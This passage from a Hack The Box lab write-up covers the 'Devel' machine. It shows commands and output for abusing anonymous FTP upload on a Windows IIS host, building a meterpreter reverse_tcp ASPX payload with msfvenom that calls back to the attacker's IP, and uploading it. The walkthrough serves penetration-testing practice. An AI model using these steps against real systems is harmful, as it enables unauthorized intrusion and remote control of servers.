 We first create a testfile
```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Devel# touch test.txt
root@kali:~/Hackthebox/Machines/Devel# echo thisisatest > test.txt 
root@kali:~/Hackthebox/Machines/Devel# cat test.txt 
thisisatest
```

Then put it into the ftp
```{r, engine='bash', count_lines}
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
13 bytes sent in 0.00 secs (634.7656 kB/s)
```

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Devel/images/testupload.PNG "testupload")

Voila! the file appears.

**Time for some shellz**

Was thinking of doing something with Insomnia shell but heck, metasploit is much easier
Create a reverse shell payload with msfvenom and upload it via the ftp

```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Devel# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.155 LPORT=4444 -f aspx > dotaplayer.aspx
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of aspx file: 2
Final size of aspx file: 2751 bytes

root@kali:~/Hackthebox/Machines/Devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put dotaplayer.aspx
local: dotaplayer.aspx remote: dotaplayer.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2787 bytes sent in 0.00 secs (8.7431 MB/s)
ftp> exit
221 Goodbye.
```
